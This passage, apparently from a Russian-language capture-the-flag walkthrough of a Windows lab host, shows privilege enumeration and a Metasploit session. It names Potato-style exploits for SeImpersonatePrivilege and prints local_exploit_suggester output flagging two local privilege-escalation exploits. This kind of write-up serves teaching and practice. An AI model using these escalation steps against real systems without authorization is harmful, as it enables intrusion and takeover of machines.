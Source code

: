 :exclamation:`Hotfix(s):  N/A`:exclamation:

Значит, делаем ставку на то, что система уязвима ~~КО ВСЕМУ НА СВЕТЕ!!!11~~ очень ко многому, что мы скоро и проверим.

`shell> whoami /priv`:
```text
PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State
============================= ========================================= =======
SeAssignPrimaryTokenPrivilege Replace a process level token             Enabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Enabled
SeAuditPrivilege              Generate security audits                  Enabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set            Enabled
```

`SeImpersonatePrivilege` включен, значит ко всему прочему админа можно получить с помощью *RottenPotatoNG*-like эксплойтов, к примеру, [Juicy Potato](https://github.com/ohpe/juicy-potato "ohpe/juicy-potato: A sugared version of RottenPotatoNG, with a bit of juice, i.e. another Local Privilege Escalation tool, from a Windows Service Accounts to NT AUTHORITY\SYSTEM.") / [lonelypotato](https://github.com/decoder-it/lonelypotato "GitHub - decoder-it/lonelypotato: Modified version of RottenPotatoNG C++").

Однако, мы заниматься этим не будем, вместо чего пройдем до конца путь Metasploit'а, а именно воспользуемся модулем `post/multi/recon/local_exploit_suggester` для обнаружения локальных уязвимостей:
```text
meterpreter > CTRL-Z
Background session 1? [y/N] y

msf exploit(multi/handler) > use post/multi/recon/local_exploit_suggester
msf post(multi/recon/local_exploit_suggester) > show options

Module options (post/multi/recon/local_exploit_suggester):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   SESSION          1                yes       The session to run this module on
   SHOWDESCRIPTION  false            yes       Displays a detailed description for the available exploits

msf post(multi/recon/local_exploit_suggester) > run

[*] 10.10.10.93 - Collecting local exploits for x64/windows...
[*] 10.10.10.93 - 16 exploit checks are being tried...
[+] 10.10.10.93 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
[+] 10.10.10.93 - exploit/windows/local/ms16_014_wmi_recv_notif: The target appears to be vulnerable.
[*] Post module execution completed
```

